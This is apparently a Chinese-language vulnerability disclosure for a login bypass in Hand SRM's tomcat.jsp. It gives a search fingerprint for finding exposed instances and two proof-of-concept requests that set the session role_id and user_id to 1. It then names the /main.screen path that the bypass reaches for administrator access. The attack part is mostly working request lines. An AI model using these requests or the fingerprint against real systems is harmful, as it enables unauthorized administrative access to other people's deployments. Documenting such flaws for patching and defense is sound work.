# 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

<a-checkbox checked>汉得SRM </a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="汉得SRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686046062155-51fc2944-47d1-40c2-ac6e-c0dfa7c7e180.png)

验证POC (Tomcat session操控)

```plain
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686046136394-1bd2fed1-a82b-485c-a50a-d292ea08ad4c.png)

访问跳转后台

```plain
/main.screen
```